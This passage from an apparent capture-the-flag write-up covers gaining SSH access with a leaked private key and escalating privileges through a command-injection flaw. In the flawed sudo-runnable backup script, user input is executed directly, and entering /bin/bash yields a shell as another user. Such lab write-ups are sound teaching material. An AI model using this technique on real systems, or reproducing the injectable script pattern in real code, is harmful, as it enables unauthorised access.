 ```console
┌──(kali㉿kali)-[~/Documents/tthm/team]
└─$ ssh dale@team.thm -i id_rsa
...snip...
dale@TEAM:~$ id
uid=1000(dale) gid=1000(dale) groups=1000(dale),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),108(lxd),113(lpadmin),114(sambashare),1003(editors)
```
The user flag is at `/home/dale/user.txt`.

It is interesting to note that effective enumeration would have eliminated the need to discover the FTP credentials in `script.old` - scanning for virtual hosts would have discovered the LFI vulnerability at `dev.team.thm`, and the `/etc/ssh/sshd_config` file is a common target for enumerating a system vulnerable to LFI - but we don't usually expect to find private keys copied into the file...

## 5. Privesc, dale -> gyles - command injection

The room intro tells us that there are 2 methods for privilege escalation - one intended, one unintended (you might already have noticed the unintended method in dale's `id` output). We'll start with the intended method before looking at the unintended method in section 7.

Running `sudo -l` as dale we find that they can run the script at `/home/gyles/admin_checks` as the gyles user without a password. The `admin_checks` script (which is not writeable by dale) is a basic back up script : 

```bash
#!/bin/bash

printf "Reading stats.\n"
sleep 1
printf "Reading stats..\n"
sleep 1
read -p "Enter name of person backing up the data: " name
echo $name  >> /var/stats/stats.txt
read -p "Enter 'date' to timestamp the file: " error
printf "The Date is "
$error 2>/dev/null

date_save=$(date "+%F-%H-%M")
cp /var/stats/stats.txt /var/stats/stats-$date_save.bak

printf "Stats have been backed up\n"
```

This all looks ok until line 9, where raw user input provided to read on line 8 is executed as code (`$error 2>/dev/null`). Combined with the sudo permissions on the file this command injection vulnerability allows us to execute commands as the gyles user : 

```console
dale@TEAM:~$ sudo -u gyles /home/gyles/admin_checks
Reading stats.
Reading stats..
Enter name of person backing up the data: this is safe 
Enter 'date' to timestamp the file: /bin/bash 
The Date is id
uid=1001(gyles) gid=1001(gyles) groups=1001(gyles),1003(editors),1004(admin)
```
